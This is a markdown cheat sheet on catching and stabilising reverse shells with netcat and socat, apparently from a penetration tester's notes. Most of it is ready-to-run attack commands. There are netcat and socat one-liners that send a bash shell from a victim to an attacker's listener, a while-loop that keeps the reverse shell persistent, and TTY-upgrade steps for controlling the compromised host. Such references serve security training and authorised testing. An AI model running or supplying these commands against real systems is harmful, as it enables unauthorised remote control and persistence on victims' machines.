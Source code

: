```yaml
---
title: Netcat Stabilisation
tags:
  - cheatsheet
  - netcat
---
```


## 1. Basic Reverse Shell

```bash
# Attacker (listening)
nc -lvnp <port>

# Victim (reverse shell)
nc <attacker-ip> <port> -e /bin/bash
```

## 2. Stabilizing the Shell

### 2.1 Upgrading to a TTY Shell

```bash
# 1. After getting a reverse shell, upgrade to a TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# 2. Press `Ctrl+Z` to background the shell

# 3. On the attacker's machine, adjust the terminal settings
stty raw -echo; fg

# 4. Reset the terminal to capture command history and auto-complete
reset
xterm-256color
export SHELL=bash
export TERM=xterm-256color
```

### 2.2 Using `rlwrap` for Readline Support

```bash
# If you have `rlwrap` installed, you can use it to add readline support (history, editing)
rlwrap nc -lvnp <port>
```

### 2.3 Enabling Interactive Mode with `-c` and `-e`

```bash
# Some versions of Netcat support the `-c` option for an interactive shell
nc -c bash <attacker-ip> <port>
```

### 2.4 Using Socat for a More Robust Shell

```bash
# 1. Start a listener with Socat on the attacker’s machine
socat file:`tty`,raw,echo=0 tcp-listen:<port>

# 2. Execute a reverse shell with Socat on the victim's machine
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attacker-ip>:<port>
```

### 2.5 Using SSH for Stabilization

```bash
# If SSH access is available, use it to stabilize the shell
ssh user@<attacker-ip> -p <port> -t bash
```

## 3. Additional Tips

### 3.1 Disable Terminal Echo

```bash
# If the terminal echoes your input twice, disable echo
stty -echo
```

### 3.2 Manage Terminal Size

```bash
# Adjust terminal size for better display
stty rows <num_rows> columns <num_columns>
```

### 3.3 Persistent Shell

```bash
# Use a while loop for a persistent reverse shell
while true; do nc -e /bin/bash <attacker-ip> <port>; done
```

## 4. Useful Aliases

```bash
# Simplify commands with aliases
alias ll='ls -la'
alias l='ls -l'
```

## 5. Quick Command Reference

```bash
# Spawn TTY shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background the shell
Ctrl + Z

# Return to foreground after terminal adjustment
fg

# Raw mode for interactive shells
stty raw -echo
```

## 6. References

- [Pentestmonkey - Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [GTFOBins - Netcat](https://gtfobins.github.io/gtfobins/nc/)
